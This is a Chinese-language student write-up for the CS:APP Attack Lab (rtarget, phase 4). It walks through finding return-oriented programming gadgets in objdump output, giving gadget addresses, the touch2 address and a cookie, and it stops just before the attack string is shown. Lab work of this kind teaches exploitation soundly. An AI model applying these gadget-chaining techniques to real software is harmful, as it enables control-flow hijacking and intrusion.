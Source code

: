 

### 实验过程

![popq操作表](/Users/zhaochen20/CST_THU/csapp/report/popq操作表.png)

首先我们根据上方表格，试图直接找到popq %rdi ret指令的位置，也即指令5f c3

```shell
2020012363@hp:~$ objdump -S rtarget> rtarget.s
2020012363@hp:~$ grep "5f c3" rtarget.s
```

然而并未找到所需结果，从而我们需要寻找替代。

考虑能否先将cookie的值传递给中间寄存器，随后中间寄存器mov到rdi上，完成赋值。

以%rax为中间寄存器，这意味着我们需要如下操作：

```shell
popq %rax
ret
movq %rax %rdi
ret
```

通过如下表格和上方popq的操作表格，查询到对应的16进制代码为(**这一部分遇到一定困难，详见问题解决部分说明**)：

```shell
58
c3
48 89 c7 c3
```

<img src="/Users/zhaochen20/CST_THU/csapp/report/movq.png" alt="movq" style="zoom:100%;" />

利用grep查询，然后精准的将程序计数器设置到48的地址，而程序即会在c3运行结束后ret掉，这样以来，我很快得到了需要的代码地址。也即将401a18向后偏移一位：0x401a19。

```shell
2020012363@hp:~$ grep "48 89 c7 c3" rtarget.s
  401a18:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
```



同样，查询`popq  %rax ret`对应的二进制代码的地址(**此处同样遇到困难，详见问题解决**)：

```shell
00000000004019fc <addval_327>:
  4019fc:	8d 87 58 90 c3 e0    	lea    -0x1f3c6fa8(%rdi),%eax
  401a02:	c3                   	retq   
```

所以直接跳转至0x4019fe即可。



参考上文，touch2的地址为：0000000000401842，而cookie的值为：2c0de9c4。



综上，构造如下攻击代码4.txt:
